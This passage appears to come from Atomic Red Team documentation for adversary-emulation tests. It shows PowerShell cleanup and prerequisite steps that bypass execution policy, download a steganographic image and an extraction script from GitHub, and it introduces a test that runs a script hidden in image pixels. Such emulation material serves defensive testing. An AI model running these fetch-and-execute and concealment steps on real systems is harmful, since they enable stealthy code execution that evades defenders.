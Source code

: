 #### Cleanup Commands:
```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force -ErrorAction Ignore
Remove-Item -Path "$HOME\result.ps1" -Force -ErrorAction Ignore 
Remove-Item -Path "$HOME\textExtraction.ps1" -Force -ErrorAction Ignore
Remove-Item -Path "$HOME\decoded.ps1" -Force -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Image file must exist
##### Check Prereq Commands:
```powershell
if (!(Test-Path "#{image_file}")) {exit 1} else {
{exit 0}
}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{image_file}") -ErrorAction Ignore | Out-Null
Write-Output "Downloading image file..."
$imageUrl = "https://github.com/raghavsingh7/Pictures/raw/f73e7686cdd848ed06e63af07f6f1a5e72de6320/evil_kitten.jpg"
Invoke-WebRequest -Uri $imageUrl -OutFile #{image_file}
```
##### Description: Extract-Invoke-PSImage must exist
##### Check Prereq Commands:
```powershell
if (!(Test-Path "#{psimage_script}")) {exit 1} else {
{exit 0}
}
```
##### Get Prereq Commands:
```powershell
New-Item -Path "PathToAtomicsFolder\ExternalPayloads\" -ItemType Directory -Force | Out-Null
Write-Output "Downloading Extract-Invoke-PSImage.ps1 script..."
$scriptUrl = "https://github.com/raghavsingh7/Extract-Invoke-PSImage/raw/7d8c165d2f9bfe9c3965181079b7c82e03168ce1/Extract-Invoke-PSImage.ps1"
Invoke-WebRequest -Uri $scriptUrl -OutFile #{psimage_script}
```




<br/>
<br/>

## Atomic Test #3 - Execute Embedded Script in Image via Steganography
This atomic test demonstrates the execution of an embedded script in an image file using steganography techniques. The script is first encoded in base64 and then embedded within the pixels of the image. The modified image is created, and the script is extracted and executed on the target system.
